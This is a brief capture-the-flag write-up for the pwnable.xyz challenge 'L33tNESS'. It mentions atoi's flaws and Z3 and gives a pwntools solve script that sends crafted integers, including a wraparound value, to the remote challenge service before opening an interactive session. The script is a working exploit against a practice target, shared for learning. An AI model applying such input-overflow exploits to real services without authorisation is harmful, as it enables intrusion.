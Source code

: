 # L33tNESS

This challenge wasn't particularly intresting, it got me to discover that atoi is more broken than i thought, and to dust off a bit my Z3 skills, which have been rusty for a while. The solve script also doesen't tell much. I'll just leave it here.

```py
from pwn import *

#p  = process('./challenge')
p = remote('svc.pwnable.xyz',30008)

p.recvuntil(b'x: ')
p.sendline(b'0')
p.recvuntil(b'y: ')
p.sendline(str(2**32 - 1337).encode())
p.send(str(349497))
p.send(b' ')
p.sendline(str(12289).encode())
solution = b"2801872743 2812376909 3552466933 3876839801 1788727279"
p.sendline(solution)


p.interactive()
```
